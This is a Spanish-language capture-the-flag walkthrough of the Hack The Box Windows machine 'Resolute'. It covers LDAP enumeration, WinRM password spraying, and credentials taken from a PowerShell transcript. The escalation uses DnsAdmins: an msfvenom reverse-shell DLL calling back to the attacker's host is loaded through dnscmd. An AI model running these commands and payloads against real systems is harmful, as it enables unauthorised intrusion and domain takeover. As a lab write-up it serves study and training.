


Resolute es una máquina Windows que cuenta con Active Directory. El enlace anónimo de Active Directory se utiliza para obtener una contraseña que los administradores del sistema establecen para las nuevas cuentas de usuario, aunque parece que la contraseña de esa cuenta ha cambiado desde entonces. Un barrido de contraseñas revela que esta contraseña todavía está en uso para otra cuenta de usuario de dominio, lo que nos da acceso al sistema a través de WinRM. Se descubre un registro de transcripción de PowerShell, que ha capturado las credenciales pasadas en la línea de comandos. Esto se utiliza para moverse lateralmente a un usuario que es miembro del grupo `DnsAdmins`. Este grupo tiene la capacidad de especificar que el servicio Servidor DNS cargue un plugin DLL. Después de reiniciar el servicio DNS, logramos la ejecución del comando en el controlador de dominio en el contexto de `NT_AUTHORITY\SYSTEM`.


# Enumeración

Iniciamos enumerando  los puertos que se encuentra abiertos en la maquina victima, esto con la herramienta de `nmap` 

```python
❯ nmap -p- --open --min-rate 5000 -vvv -Pn -n 10.10.10.169 -oG allportsScan
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack
88/tcp    open  kerberos-sec     syn-ack
135/tcp   open  msrpc            syn-ack
139/tcp   open  netbios-ssn      syn-ack
389/tcp   open  ldap             syn-ack
445/tcp   open  microsoft-ds     syn-ack
464/tcp   open  kpasswd5         syn-ack
593/tcp   open  http-rpc-epmap   syn-ack
636/tcp   open  ldapssl          syn-ack
3268/tcp  open  globalcatLDAP    syn-ack
3269/tcp  open  globalcatLDAPssl syn-ack
5985/tcp  open  wsman            syn-ack
9389/tcp  open  adws             syn-ack
47001/tcp open  winrm            syn-ack
49664/tcp open  unknown          syn-ack
49665/tcp open  unknown          syn-ack
49666/tcp open  unknown          syn-ack
49667/tcp open  unknown          syn-ack
49671/tcp open  unknown          syn-ack
49678/tcp open  unknown          syn-ack
49679/tcp open  unknown          syn-ack
49684/tcp open  unknown          syn-ack
49705/tcp open  unknown          syn-ack
```

- `-p-`: indica a Nmap que escanee todos los puertos (desde el puerto 1 hasta el puerto 65535).
- `--open`: muestra solo los puertos que están abiertos.
- `--min-rate 5000`: establece la tasa mínima de paquetes por segundo en 5000. Esto puede acelerar el escaneo, enviando más paquetes por segundo, aunque también puede aumentar la posibilidad de ser detectado por sistemas de prevención de intrusiones (IPS).
- `-vvv`: establece un nivel de verbosidad muy alto, mostrando una salida muy detallada del escaneo.
- `-Pn`: ignora el descubrimiento de hosts y asume que el objetivo está activo.
- `-n`: evita la resolución DNS inversa para las direcciones IP.
- `10.10.10.169`: es la dirección IP del host que se va a escanear.
- `-oG allportsScan`: genera un archivo de salida en formato "greppable" llamado "allportsScan".

Luego de obtener los puertos abiertos lo que haremos será enumerar los servicios y las versiones de estas en cada uno de los puertos.

```python
❯ nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49678,49679,49684,49705 -sC -sV -vvv 10.10.10.169 -Pn -n -oN servicesScan
PORT      STATE SERVICE      REASON  VERSION
53/tcp    open  domain       syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec syn-ack Microsoft Windows Kerberos (server time: 2024-03-29 16:59:55Z)
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap         syn-ack Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds syn-ack Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp   open  kpasswd5?    syn-ack
593/tcp   open  ncacn_http   syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped   syn-ack
3268/tcp  open  ldap         syn-ack Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped   syn-ack
5985/tcp  open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       syn-ack .NET Message Framing
47001/tcp open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        syn-ack Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack Microsoft Windows RPC
49671/tcp open  msrpc        syn-ack Microsoft Windows RPC
49678/tcp open  ncacn_http   syn-ack Microsoft Windows RPC over HTTP 1.0
49679/tcp open  msrpc        syn-ack Microsoft Windows RPC
49684/tcp open  msrpc        syn-ack Microsoft Windows RPC
49705/tcp open  msrpc        syn-ack Microsoft Windows RPC
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-03-29T17:00:52
|_  start_date: 2024-03-29T16:56:07
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 52471/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 23204/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 55070/udp): CLEAN (Failed to receive data)
|   Check 4 (port 18503/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 2h26m59s, deviation: 4h02m30s, median: 6m58s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2024-03-29T10:00:49-07:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required

```

- `-p`: especifica los puertos a escanear. En este caso, se están escaneando los puertos 53, 88, 135, 139, 389, 445, 464, 593, 636, 3268, 3269, 5985, 9389, 47001, 49664, 49665, 49666, 49667, 49671, 49678, 49679, 49684 y 49705.
- `-sC`: activa la opción de enumeración de scripts predeterminados de Nmap. Esto permite ejecutar una serie de scripts diseñados para detectar vulnerabilidades o características específicas de los servicios.
- `-sV`: realiza una detección de la versión de los servicios que se encuentran en los puertos especificados.
- `-vvv`: establece un nivel de verbosidad muy alto, mostrando una salida muy detallada del escaneo.
- `10.10.10.169`: es la dirección IP del host que se va a escanear.
- `-Pn`: ignora el descubrimiento de hosts y asume que el objetivo está activo.
- `-n`: evita la resolución DNS inversa para las direcciones IP.
- `-oN servicesScan`: genera un archivo de salida en formato normal con el nombre "servicesScan".

### Enumeración de usuarios

Luego de estar enumerando a través del servicio `ldap` encontraremos  algunos usuarios, para obtener solo los usuarios realizaremos unos filtros con `grep` y `awk`.

```python
❯ ldapsearch -x -b 'dc=megabank,dc=local' 'Objectclass=user' -H ldap://10.10.10.169| grep userPrincipalName:| awk '{print $2}'| awk -F '@' '{print $1}' > users.txt
```

Luego de realizar los filtros, podremos obtener los usuarios:

```python
ryan
marko
sunita
abigail
marcus
sally
fred
angela
felicia
gustavo
ulf
stevie
claire
paulo
steve
annette
annika
per
claude
melanie
zach
simon
naoki
```

# Explotación 

Luego de intentar `Brute Force` con la herramienta `netexec` y quizás encontrar algún usuario que este haciendo uso de su mismo nombre como contraseña. Intentaremos enumerar mas el servicio `ldap`, en el cual en la descripción del usuario `Marko Novak` encontramos una contraseña.

```python
❯ ldapsearch -x -b 'dc=megabank,dc=local' 'Objectclass=user' -H ldap://10.10.10.169
```


Ejecutamos el siguiente comando solo para obtener el texto:

```python
❯ ldapsearch -x -b 'dc=megabank,dc=local' 'Objectclass=user' 'description' -H ldap://10.10.10.169
```

```python
.
.
.
# Marko Novak, Employees, MegaBank Users, megabank.local
dn: CN=Marko Novak,OU=Employees,OU=MegaBank Users,DC=megabank,DC=local
description: Account created. Password set to Welcome123!
.
.
.
```

Luego de obtener la contraseña, realizaremos `Brute Force` con los usuarios que habíamos encontrado antes.

```python
❯ netexec winrm 10.10.10.169 -u ../content/users.txt   -p 'Welcome123!'
```


Encontramos las credenciales validas por el servicio `winrm`:

```python
melanie : Welcome123! 
```

# Escalada de privilegios

## Usuario : melanie

Teniendo las credenciales, ahora nos autenticaremos por el servicio `winrm` con la herramienta `evil-winrm` 

```python
❯ evil-winrm -i 10.10.10.169 -u melanie  -p 'Welcome123!'
```


Enumerando encontraremos con un directorio que es `PSTransciprts` que me pareció algo interesante 

```python
*Evil-WinRM* PS C:\> ls -force
```

Revisando cada una de los directorios podremos encontrara un archivo interesante




El archivo que encontramos contiene un comando de autenticación a un servicio compartido, en el cual podemos obtener unas credenciales 

```python
.
.
.
**********************
PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!

if (!$?) { if($LASTEXITCODE) { exit $LASTEXITCODE } else { exit 1 } }"
.
.
.
```

Teniendo las credenciales, relazaremos `Brute Force` para encontrar algún usuario que sea valido con la contraseña que encontramos aunque en la linea de comandos el usuario `ryan` es con quien se usa la credencial

```python
❯ netexec winrm 10.10.10.169 -u users.txt  -p Serv3r4Admin4cc123!
```


Efectivamente el usuario `ryan` es el que puede hacer uso de la contraseña. 
## Usuario : ryan

Haciendo uso de las credenciales : `ryan : Serv3r4Admin4cc123!` podremos ingresar con la herramienta de `evil-winrm`



En su escritorio encontramos una nota que dice :

```python
*Evil-WinRM* PS C:\Users\ryan\desktop> type note.txt
Email to team:

- due to change freeze, any system changes (apart from those to the administrator account) will be automatically reverted within 1 minute
```


```python
*Evil-WinRM* PS C:\Users\ryan\desktop> whoami /groups
```

Enumerando los grupos a los que pertenecemos encontraremos que estamos dentro de `DnsAdmins` 


### Grupo : DnsAdmins

Investigando en los siguientes posts podremos entender y comprender como abusar del grupo del que nos encontramos:

- [https://medium.com/r3d-buck3t/escalating-privileges-with-dnsadmins-group-active-directory-6f7adbc7005b](https://medium.com/r3d-buck3t/escalating-privileges-with-dnsadmins-group-active-directory-6f7adbc7005b)
- [https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83)
- [https://lolbas-project.github.io/lolbas/Binaries/Dnscmd/](https://lolbas-project.github.io/lolbas/Binaries/Dnscmd/)

Debemos de ejecutar el siguiente comando para lograr obtener una shell

```python
dnscmd.exe dc1.lab.int /config /serverlevelplugindll \\192.168.0.149\dll\wtf.dll
```

En el comando que debemos de a ejecutar vemos que se proporciona una `dll` el cual se ejecutara cuando el servicio de `dns` inicie nuevamente.

Generaremos nuestra propia `dll` maliciosa, esta la realizaremos con `msfvenom`

```python
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.7 LPORT=443 -f dll -o dll_revershell.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: dll_revershell.dl
```

Luego iniciaremos un servidor por el servicio `smb` en nuestra maquina atacante y también ponernos a la escucha con `ncat`

```python
❯ impacket-smbserver smbFolder $(pwd) -smb2support
❯ ncat -lnvp 443

```

Finalmente debemos de ejecutar los comandos en la maquina victima

- Configurar o agregar nuestra `dll` maliciosa

```python
*Evil-WinRM* PS C:\Users\ryan\files> dnscmd.exe /config /serverlevelplugindll \\10.10.16.7\smbFolder\dll_revershell.dll
```

- Para el servicio de `dns`

```python
*Evil-WinRM* PS C:\Users\ryan\files> sc.exe stop dns
```

- Iniciar el servicio `dns`

```python
*Evil-WinRM* PS C:\Users\ryan\files> sc.exe start dns
```


## Usuario : administrator

Si todo se ejecuto correctamente deberiamos obtener una shell a nombre del usuario `administrator`


